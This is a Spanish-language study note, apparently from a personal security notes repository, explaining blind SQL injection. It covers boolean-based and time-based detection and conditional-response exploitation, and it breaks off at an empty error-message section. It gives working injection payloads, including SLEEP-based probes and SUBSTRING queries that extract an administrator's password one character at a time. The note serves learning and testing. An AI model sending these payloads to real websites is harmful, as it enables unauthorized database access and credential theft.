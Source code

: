 # 06/02/2025
# Blind SQL injection
Tipo de [SQLI](sql_injection.md) en el que la aplicacion es vulnerable a algun ataque pero la respuesta HTTP 
no lo muestra directamente sino que con cambios sutiles en la pagina o errores simples q no dicen nada, 
esto nos obliga a tener que generar payloads mas especificos.
**La estrategia generalmente es conseguir data sensible muy de a poco con herramientas automatizadas**
El payload depende mucho del tipo de respuesta que recibimos, esta puede ser una respuesta condicional
o algun tipo de mensaje de error. 

# Tipos principales
## Boolean-based
Se arma un payload que deberia devolver falso, esperas a ver la respuesta y despues injectas otro q devuelva verdaderos.
si las 2 request devuelven lo q esperabas la pagina es vulnerable a SQLI.

> Si la pagina nos muestra un item dado su id el query podria verse algo asi:


```
SELECT title, description, body FROM items WHERE ID = 2
```

> Nosotros podriamos agregar este payload en el id para que nos devuelva FALSE:

```
2 AND 1=2
```

> Esto deberia devolver FALSE casi siempre, ahora para verificar que tenemos una vulnerabilidad tendriamos que testear por TRUE:


```
2 AND 1=1
```

> Si esto devuelve TRUE entonces encontramos un SQLI


## Time-based 
Utiliza funciones de SQL que crean algun tipo de delay en la respuesta y dependiendo del tiempo que tarda en responder.

> El mismo caso que el anterior ejemplo

```
SELECT title, description, body FROM items WHERE ID = 2
```

> Ahora tendriamos que agregar una funcion de delay en el payload para verificar que funciona

```
2-SLEEP(15)
```

> Si nos hace esperar entonces existe alguna vulnerabilidad y podemos sacar mas info, como por ejemplo si la version de SQL es 5.x:

```
1-IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0)
```

# Tipos de respuesta y que hacer en cada caso
## Respuesta condicional
Ponele que tenes una pagina web que usa una cookie de trackeo. En el header esto se veria asi `Cookie: TrackingId=u5YD3PapBcR4`.
Cuando esta va al servidor el query que utiliza la applicacion es `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4`
Esto es vulnerable como ya sabemos, el unico problema aca es que la respuesta nosotros no la vemos pero lo que si podemos ver es el cambio 
en la pagina cuando entramos a esta con esa cookie, en este caso podria ser un "Bienvenido".

> Para testear si aca hay una injeccion hacemos

`xyz' OR '1'='1'--` -> Si no sabemos la cookie

`xyz' AND '1'='1` -> Si la conocemos (xyz lo remplazamos con el trackingid)

> Ahora que sabemos si hay una injeccion podemos intentar un ataque de fuerza bruta para determinar la contraseña del "administrador"

`xyz' OR SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm'--` -> ¿Es el primer caracter mayor a m? 

`xyz' OR SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 2, 1) = 'x'--` -> ¿Es el segundo caracter x? 

## Mensaje de Error

